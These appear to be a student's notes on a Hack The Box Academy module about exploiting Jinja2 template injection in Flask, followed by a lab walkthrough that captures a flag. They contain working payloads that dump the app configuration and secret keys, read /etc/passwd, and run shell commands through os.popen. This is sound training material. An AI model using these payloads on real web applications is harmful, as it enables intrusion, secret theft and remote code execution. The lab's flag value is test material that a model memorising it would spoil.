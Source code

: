 Now that we have seen how to identify the template engine used by a web application vulnerable to SSTI, we will move on to the exploitation of SSTI. In this section, we will assume that we have successfully identified that the web application uses the`Jinja` template engine. We will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step.

Jinja is a template engine commonly used in Python web frameworks such as`Flask` or`Django`. This section will focus on a`Flask` web application. The payloads in other web frameworks might thus be slightly different.

In our payload, we can freely use any libraries that are already imported by the Python application, either directly or indirectly. Additionally, we may be able to import additional libraries through the use of the`import` statement.

---

## Information Disclosure

We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, we can obtain the web application's configuration using the following SSTI payload:

```jinja2
{{ config.items() }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_1.png)

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:


```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_2.png)

---

## Local File Inclusion (LFI)

We can use Python's built-in function`open` to include a local file. However, we cannot call the function directly; we need to call it from the`__builtins__` dictionary we dumped earlier. This results in the following payload to include the file`/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution in Python, we can use functions provided by the`os` library, such as`system` or`popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in function`import`. This results in the following SSTI payload:


```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_4.png)

# Question
---

![Pasted image 20250212131624.png](../../../../IMAGES/Pasted%20image%2020250212131624.png)

We can begin by identifying if the page is vulnerable to SSTI:

![Pasted image 20250212131817.png](../../../../IMAGES/Pasted%20image%2020250212131817.png)

![Pasted image 20250212131825.png](../../../../IMAGES/Pasted%20image%2020250212131825.png)

This could be a good indicator that the server is indeed vulnerable to SSTI, let's use an identifier for `jinja2` and check if it works:

```jinja2
{{ config.items() }}
```


We can check the web application's configuration by using that payload:

![Pasted image 20250212131952.png](../../../../IMAGES/Pasted%20image%2020250212131952.png)

Ok, it is vulnerable, let's get RCE:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![Pasted image 20250212132022.png](../../../../IMAGES/Pasted%20image%2020250212132022.png)

We are root, let's try to read the `/` directory:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

![Pasted image 20250212132107.png](../../../../IMAGES/Pasted%20image%2020250212132107.png)

There is our flag, let's read it:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

![Pasted image 20250212132138.png](../../../../IMAGES/Pasted%20image%2020250212132138.png)

Got it: 

```
HTB{295649e25b4d852185ba34907ec80643}
```

